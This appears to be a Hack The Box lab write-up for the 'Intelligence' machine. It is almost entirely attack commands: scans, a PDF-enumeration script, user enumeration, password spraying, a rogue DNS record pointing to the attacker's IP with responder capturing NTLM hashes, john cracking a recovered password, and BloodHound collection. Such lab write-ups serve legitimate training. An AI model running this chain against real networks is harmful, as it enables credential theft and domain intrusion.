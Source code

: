 ```
nmap -sS -sC -sV -T5 -Pn 10.10.10.248
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6413486e-f42a-43a5-b969-237d18b6e161)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.248/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/96991ceb-dfba-48ae-a7ad-6399ba07a2ed)

```
wget http://10.10.10.248/documents/2020-01-01-upload.pdf
```
![image](https://github.com/regarmulia/HTB/assets/33616880/bdc6e7f4-18d2-448d-95b8-1531c66d373e)

```
exiftool 2020-01-01-upload.pdf
```
![image](https://github.com/regarmulia/HTB/assets/33616880/44a19195-37c8-4deb-b3ed-b2c660206718)

```
curl http://10.10.10.248/documents/2020-01-01-upload.pdf --output 2020-01-01-upload.pdf
```
![image](https://github.com/regarmulia/HTB/assets/33616880/b57f601a-2f11-4db5-ac20-830bd9527e7f)

```
wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
chmod +x kerbrute_linux_amd64
./kerbrute_linux_amd64 userenum --dc 10.10.10.248 -d intelligence.htb users
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4efd407f-9ea1-4de4-9387-ba3ea918ac6d)

```
#!/usr/bin/env python3

import datetime
import requests


t = datetime.datetime(2020, 1, 1)  
end = datetime.datetime(2021, 7, 4) 

while True:
    url = t.strftime("http://intelligence.htb/documents/%Y-%m-%d-upload.pdf")  
    resp = requests.get(url)
    if resp.status_code == 200:
        print(url)
    t = t + datetime.timedelta(days=1)
    if t >= end:
        break
```
```
python3 findpdfs.py
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0a43ff18-7da3-413d-8e83-ef4b8c33c978)

![image](https://github.com/regarmulia/HTB/assets/33616880/5cef87be-c746-4a4f-87d4-f5d4d5f95f63)

```
wget -i pdfsurl
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5def43cf-a8a4-43a7-b66b-9ba62c4fb63d)

```
exiftool *upload.pdf | grep Creator | sort –u
exiftool *upload.pdf | grep Creator | awk -F': ' '{print $2}' | sort -u
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c455f320-d1a8-4227-8fb2-c7a237733da9)

![image](https://github.com/regarmulia/HTB/assets/33616880/447f7d52-ef55-4f5b-9ef1-97e4df35eca7)

```
for f in *pdf; do pdftotext $f; done
```
![image](https://github.com/regarmulia/HTB/assets/33616880/9ed0481f-90bf-425a-b359-7ec3b702c948)

```
head -n1 *txt
NewIntelligenceCorpUser9876
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7470bba3-1f65-4360-90db-2d353f91365c)

![image](https://github.com/regarmulia/HTB/assets/33616880/1274008a-d8b3-475d-acb1-af86b0b1f8b4)

```
cat *txt > all.txt
nano all.txt; ctrl+w password
```
![image](https://github.com/regarmulia/HTB/assets/33616880/20edb4ef-02e1-4a33-9a2f-9386d399c602)

```
crackmapexec smb 10.10.10.248 -u users -p NewIntelligenceCorpUser9876
```
![image](https://github.com/regarmulia/HTB/assets/33616880/af9cb0b4-8e06-42ea-96e3-366f913af48a)

```
smbclient -L \\\\10.10.10.248\\ -U intelligence.htb/Tiffany.Molina
smbclient \\\\10.10.10.248\\Users -U intelligence.htb/Tiffany.Molina
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3b60eb9f-aaee-4da9-8639-382181585649)

![image](https://github.com/regarmulia/HTB/assets/33616880/972a6c20-fa6e-4693-9782-b904c13b384c)

```
smbclient \\\\10.10.10.248\\IT -U intelligence.htb/Tiffany.Molina
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d81005aa-6f13-4698-941d-57d3de9a0095)

![image](https://github.com/regarmulia/HTB/assets/33616880/c6526640-fcd1-4dd6-9486-20c982b8e738)

```
https://github.com/dirkjanm/krbrelayx
./dnstool.py -u 'intelligence\Tiffany.Molina' -p NewIntelligenceCorpUser9876 10.10.10.248 -a add -r web1 -d 10.10.14.20 -t A
responder -I tun0
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5fc68265-dab2-4817-972b-3c52bc647e63)

![image](https://github.com/regarmulia/HTB/assets/33616880/0915f164-fa0e-4265-b707-cd6e4c2ba008)

```
john hash -w=/usr/share/wordlists/rockyou.txt
Ted.Graves | Mr.Teddy
```
![image](https://github.com/regarmulia/HTB/assets/33616880/9652e79f-8d7d-4049-b812-64cf935c500c)

![image](https://github.com/regarmulia/HTB/assets/33616880/95066406-d2c7-472f-a0dd-0dd7827689cb)

```
sudo apt install bloodhound
neo4j console
```
![image](https://github.com/regarmulia/HTB/assets/33616880/49cb9f67-4bbf-4794-9cbd-2087b07b71e8)

![image](https://github.com/regarmulia/HTB/assets/33616880/eb604014-04eb-40b0-9659-e440e903fade)

```
git clone https://github.com/fox-it/BloodHound.py.git
cd BloodHound.py
python3 setup.py install
python3 bloodhound.py -d intelligence.htb -u Ted.Graves -p Mr.Teddy -ns 10.10.10.248 -c All
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1e1237c4-76e0-4a83-be86-647b7fe2415e)
